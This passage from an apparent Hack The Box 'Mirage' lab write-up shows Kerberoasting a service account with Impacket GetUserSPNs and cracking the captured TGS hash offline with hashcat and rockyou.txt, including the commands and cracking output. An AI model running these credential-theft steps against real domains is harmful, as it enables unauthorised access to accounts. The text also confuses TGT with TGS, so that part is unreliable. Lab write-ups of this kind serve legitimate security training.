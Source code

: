 Since we have valid credentials and found a kerberoastable user `nathan.aadam`.  
Lets try to obtaine a valid `Ticket-Granting-Ticket (TGT)` from the `Key Distribution Center (KDC)` using **Kerberoasting** from Impacket `GetUserSPNs` tool.

```bash
impacket-GetUserSPNs 'mirage.htb/david.jjackson' -dc-host dc01.mirage.htb -k -request
```

![Kerberoasting-Successful](assets/img/Kerberoasting-Successful.png)

> Captured `TGS` hash via Kerberoasting.

:::tip
If you get the error: `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`
Enter this command `sudo ntpdate dc01.mirage.htb` first.
:::

It also dumnped a `Ticket Granting Service (TGS)` hash for the user, which we save for offline cracking.

---

## 🔓 Cracking the `TGS` with Hashcat (MITRE ATT&CK: Credential Access)

The hash type for `SPN-based TGS` is `-m 13100` **(Kerberos 5 TGS-REP etype 23)**.  

```bash
hashcat -m 13100 tgs-nathan-aadam.hash /usr/share/wordlists/rockyou.txt --force
```

> As password list we can use `rockyou.txt` which comes pre installed on kali linux.

:::tip
If you still have the archive, use `sudo gunzip /usr/share/wordlists/rockyou.txt.gz`
:::

```bash
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*nathan.aadam$MIRAGE.HTB$mirage.htb/nat...a1ec74
Time.Started.....: Sat Jul 26 03:44:37 2025, (6 secs)
Time.Estimated...: Sat Jul 26 03:44:43 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2129.2 kH/s (1.61ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 12472320/14344385 (86.95%)
Rejected.........: 0/12472320 (0.00%)
Restore.Point....: 12468224/14344385 (86.92%)
```